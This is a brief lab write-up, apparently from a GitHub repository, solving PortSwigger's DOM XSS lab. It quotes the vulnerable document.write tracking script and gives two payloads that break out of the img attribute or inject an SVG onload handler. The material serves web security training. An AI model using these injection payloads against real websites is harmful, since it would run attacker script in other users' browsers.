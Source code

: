 # Lab: DOM XSS in document.write sink using source location.search

# https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

```bash
# Type abc1234 into searchbox and search.
# After that inspect abc1234 in 0 search results for 'abc1234'.
# <img src="/resources/images/tracker.gif?searchTerms=abc1234">
# and we will find this script part
 <script>
 function trackSearch(query) {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');  }
 var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {trackSearch(query); }
<div></div></script>
```
```bash
# We want to effect document.write part by manuplating this <img src="/resources/images/tracker.gif?searchTerms=abc1234">
# so type this to searchbox.

abc1234" onload="alert()"

# You can also use this.

"><svg onload=alert(1)>

```
